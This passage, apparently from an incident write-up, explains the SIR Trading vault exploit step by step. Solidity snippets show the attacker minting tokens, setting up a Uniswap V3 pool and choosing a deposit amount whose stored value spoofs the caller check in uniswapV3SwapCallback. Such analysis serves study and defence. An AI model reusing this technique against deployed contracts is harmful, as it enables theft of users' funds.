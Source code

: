```solidity
_mint(address(this), 200000000000000000000000000000000000000000000000000);
```

Then, the attacker deployed a second token (TokenB), which is used as the debt token in the SIR Trading protocol:

```solidity
IToken tokenB = IToken(address(new Token()));
tokenB.mint(address(this), 200000000000000000000000000000000000000000000000000);
tokenB.approve(address(victim), 200000000000000000000000000000000000000000000000000);
```

Once both tokens were ready, the attacker created a Uniswap V3 pool for TokenA and TokenB. This step is necessary because the vulnerable contract interacts with Uniswap during the minting process. The attacker initialized the pool with a chosen price and provided liquidity using both tokens. This setup ensures that the vault will interact with the pool in the next step and allows the attacker to control token balances, prices, and parameters needed to manipulate the minted amount:

```solidity
// Initialize Uniswap V3 pool with TokenA and TokenB
positionManager.createAndInitializePoolIfNecessary(
    address(tokenB),
    address(this), // TokenA (ExploitCoordinator)
    100, // Fee tier
    79228162514264337593543950336 // sqrtPriceX96
);

// Approve token transfers to Uniswap
tokenB.approve(address(positionManager), 108823205127466839754387550950703);

IERC20(address(this)).approve(address(positionManager), 108823205127466839754387550957989);

// Provide liquidity to the Uniswap V3 pool
positionManager.mint(
    INonfungiblePositionManager.MintParams({
        token0: address(tokenB),
        token1: address(this),
        fee: 100,
        //...
    })
);
```

With the Uniswap pool and liquidity in place, the attacker moved on to the critical step: triggering the vulnerable `uniswapV3SwapCallback` and controlling the value stored in transient storage.

To do this, they called the `mint` function of the victim Vault contract, passing a specially chosen `amountToDeposit`. This value is used internally by the victim contract and eventually written into transient storage slot `0x1` as the return value of the `_mint` function, the same slot that is later read to verify the caller in `uniswapV3SwapCallback`.

The attacker’s goal was to ensure that the `tokensMinted` value, which ends up in slot `0x1`, matches the numeric value of an address they control. With this, they could later call `uniswapV3SwapCallback` directly from a contract deployed at that address, bypassing the pool verification check.
